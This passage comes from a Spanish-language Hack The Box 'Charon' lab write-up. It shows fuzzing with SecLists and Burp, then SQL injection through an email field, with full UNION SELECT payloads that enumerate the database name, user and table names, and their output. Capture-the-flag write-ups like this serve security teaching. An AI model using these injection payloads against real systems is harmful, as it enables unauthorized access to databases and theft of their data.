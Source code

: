 Para hacer un barrido sobre los caracteres especiales, hacremos uso del archivo `/opt/SecLists/Fuzzing/special-chars.txt` (que en caso de no tenerlo, podemos descargar [SecLists](https://github.com/danielmiessler/SecLists) y lo guardamos en `/opt/`). Como la respuesta no es la que buscamos, vamos a tratar de hacer combinaciones de caracteres especiales. Pero para este caso vamos a utilizar la herramienta [BurpSuite](https://portswigger.net/burp)

![""](/assets/images/htb-charon/charon-burp.png)

Vemos que la combinación `@` y `.` generan una respuesta **Email sent to:**, por lo que podriamos pensar que dichos símbolos son necesarios cuando queramos hacer una inyección. Ahora vamos a tratar de obtener el nombre de la base de datos a través del comando `database()` y `concat`.

```bash
❯ python3 sqli_charon.py
Email: test@test.com' UNion select 1,2,3,concat(database(),"@.")-- -
[*] Email sent to: supercms@.=
Email:  
```

Tenemos el nombre de la base de datos `supercms`; por lo que ya encontramos una forma de dumpear la base de datos.

```bash
❯ python3 sqli_charon.py
Email: test@test.com' UNion select 1,2,3,concat(database(),"@.")-- -
[*] Email sent to: supercms@.=
Email: test@test.com' UNion select 1,2,3,concat(user(),"@.")-- -
[*] Email sent to: supercms@localhost@.=
Email: test@test.com' UNion select 1,2,3,concat(table_name,"@.") from information_schema.tables where table_schema="supercms" limit 1,1-- -
[*] Email sent to: license@.=
Email: test@test.com' UNion select 1,2,3,concat(table_name,"@.") from information_schema.tables where table_schema="supercms" limit 2,1-- -
[*] Email sent to: operators@.=
```